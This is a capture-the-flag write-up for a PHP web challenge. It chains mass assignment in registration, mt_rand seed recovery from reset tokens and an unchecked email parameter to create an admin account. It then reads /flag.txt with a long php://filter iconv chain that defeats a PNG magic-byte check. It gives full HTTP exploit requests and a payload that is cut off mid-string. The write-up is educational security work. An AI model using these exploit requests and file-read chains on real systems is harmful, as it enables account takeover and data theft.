

# Ghazy Corp


File added by ctf org


This will be basically journey through source code, as this is almost same approach we pwnd this challenge

So first step in web application is registration. Registrated account can't be logged in as it is not confirmed. So lets look at source code in `register.php` there is **mass assigment vulnerability**

```php
{
            $data=safe_data($_POST);
            $placeholders = implode(', ', array_fill(0, count($data), '?')); //like here
            $sql = "INSERT INTO users (" . implode(', ', array_keys($data)) . ") VALUES (" . $placeholders . ")"; //like here
            $stmt = $conn->prepare($sql);
            if ($stmt) 
            {
                $types = str_repeat('s', count($data));  
                $stmt->bind_param($types, ...array_values($data));
```

This allows to override any values set by default - like `confirmed` 0, in reqeust to `confirmed` 1, same with `level` but this comes in handy later.

This allows to pass `&confirmed=1` when registering account and confirming account for password reset where is next

```php
  if($target_user['confirmed']===1) //this functionality is available only for confirmed users
                {
                    $level=(int)$target_user['level'];
                    generate_reset_tokens($email,$level);
                    send_forget_password_mail($email);
                    echo "<script>window.location.href='reset_password.php';</script>";
                }
```

So diving deeper to `generate_reset_tokens` ( we ignored `send_forget_password_mail` because mail functonality was added for taks conveniance so out of scope)

Here is `generate_reset_token` source code

```php
function generate_reset_tokens($email,$level)
{
    $_SESSION['reset_email']=$email;
    $_SESSION['reset_token1']=mt_rand(); //here is first call for mt_rand, delivered to a user
    for($i=0;$i<$level;$i++) //level is controlled by mass assigment vulnerability
    {
        mt_rand();
    }
    $_SESSION['reset_token2']=mt_rand(); //this is delivered to a user 

    // Generating another values in case the user entered wrong token
    $_SESSION['reset_token3']=mt_rand();
    $_SESSION['reset_token4']=mt_rand();
}
```

So it is stinky especially that `for` loop. Some research and we stoumble on this article&#x20;



Which states that `mt_rand` can be broken with only 2 values and no bruteforce.&#x20;

Additionaly in the whole code there is no check if `email` checks out with stored in `phpsession`  &#x20;

and this can be exploited in `wrong_reset_token.php`

```php
if(!empty($_GET['email']) && !empty($_GET['token1']) && !empty($_GET['token2']) && !empty($_GET['new_password']))
{
    $email=$_GET['email'];
    $token1=(int)$_GET['token1'];
    $token2=(int)$_GET['token2'];
    if(strlen($_GET['new_password']) < 10)
    {
        die("Plz choose password +10 chars");
    }
    $password=md5($_GET['new_password']);
    if($token1 ===$_SESSION['reset_token3']  &&  $token2 ===$_SESSION['reset_token4']  )
    {
        if ($email=="admin@ghazycorp.com") //no change if user has power to change it just blindly taking it from $_GET
        {
            $stmt=$conn->prepare("insert into admins(email,password,level,confirmed) values(?,?,1,1)"); // inserting instead of updating to avoid any conflict.
            $stmt->bind_param("ss", $email,$password);
            if($stmt->execute())
            {
                unset($_SESSION['reset_token3']);
                unset($_SESSION['reset_token4']);
                echo "<script>alert('User Updated Successfully');window.location.href='index.php';</script>";
            }
        }
        else
        {
            $stmt=$conn->prepare("insert into users(email,password,level,confirmed) values(?,?,1,1)"); // inserting instead of updating to avoid any conflict.
            $stmt->bind_param("ss", $email,$password);
            if($stmt->execute())
            {
                echo "<script>alert('User Updated Successfully');window.location.href='index.php';</script>";
            }
        }
```

So for now we have some attack vector for admin account:

* mass assigment to register user with `confirmed=1` and `level=226`
* use forget password functionality for created user
* read reset password token&#x20;
* run mt\_rand braking scripts
* exploit `wrong_reset_token.php` and obtain admin account

## Exploit

### User register

```http
POST /register.php HTTP/1.1
Host: 20.55.48.101
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 86
Origin: http://20.55.48.101
Connection: close
Referer: http://20.55.48.101/register.php
Cookie: PHPSESSID=ee87a5983e941fe7244df167fecd6d08
Upgrade-Insecure-Requests: 1


email=soviet2%40soviet.pl&password=sovietsoviet&register-submit=&confirmed=1&level=226
```

### Forget password functionality

```http
POST /register.php HTTP/1.1
Host: 20.55.48.101
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 86
Origin: http://20.55.48.101
Connection: close
Referer: http://20.55.48.101/register.php
Cookie: PHPSESSID=ee87a5983e941fe7244df167fecd6d08
Upgrade-Insecure-Requests: 1


email=soviet2%40soviet.pl&password=sovietsoviet&register-submit=&confirmed=1&level=226
```

### Read token and break mt\_rand

Generated tokens are:

<figure><figcaption></figcaption></figure>

Using scripts return `seed`

<figure><figcaption></figcaption></figure>

Generate all values:

```php
<?php
mt_srand(2785765594); //seed generator
for($i=0;$i<300;$i++){ //300 iterations just to be sure
        echo($i);       //dont look at that ugly code
        echo(" ");
        echo(mt_rand());
        echo("<br>");
        
}
?>
```

Generated values are identical!

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

### Exploit wrong\_reset\_token.php and login as admin

```http
GET /wrong_reset_token.php?email=admin@ghazycorp.com&token1=1636183611&token2=1752585671&new_password=sovietsoviet1 HTTP/1.1
Host: 20.55.48.101
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=ee87a5983e941fe7244df167fecd6d08
Upgrade-Insecure-Requests: 1

```

And password is changed so now we can login as admin

<figure><figcaption></figcaption></figure>


## Read the flag

So now it is just "easy" for reading the flag.

````php
if(!empty($_POST['img']))
{
    $name=$_POST['img'];
    $content=file_get_contents($name);
    if(bin2hex(substr($content,1,3))==="504e47") // PNG magic bytes
    {
        echo "<img src=data:base64,".base64_encode($content);
    }
    else
    {
        echo "Not allowed";
    }
}
```
````

So this code checks if file requested by user have PNG magic bytes but it does it by comparing ASCII and doing it from second byte so by using `wrapwrap` it is possible to use PHP iconv chain to prepend data to file and still extract it from disk!



generating payload

```
python3 wrapwrap.py /flag.txt '.PNG' ' ' 50
```

The value `50` is just a guess to small may not work bigger return more trash.

### Sending payload and recovering flag

```http
POST /user_photo.php HTTP/1.1
Host: 20.55.48.101
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://20.55.48.101/dashboard.php
Cookie: PHPSESSID=ee87a5983e941fe7244df167fecd6d08
Upgrade-Insecure-Requests: 1
Content-Length: 44568
content-type: application/x-www-form-urlencoded

img=php://filter/convert.base64-encode|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-decode|convert.iconv.855.UTF7|convert.base64-decode|convert.iconv.855.UTF7|convert.base64-decode|convert.iconv.855.UTF7|convert.base64-decode|convert.quoted-printable-encode|convert.base64-encode|convert.base64-encode|convert.base64-encode|convert.quoted-printable-encode|convert.iconv.855.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.quoted-printable-encode|convert.iconv.855.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.quoted-printable-encode|convert.iconv.855.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-decode|convert.iconv.437.UCS-4le|convert.base64-encode|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103|convert.base64-decode|convert.base64-encode|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.base64-decode|convert.iconv.UCS-4.UCS-4LE|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.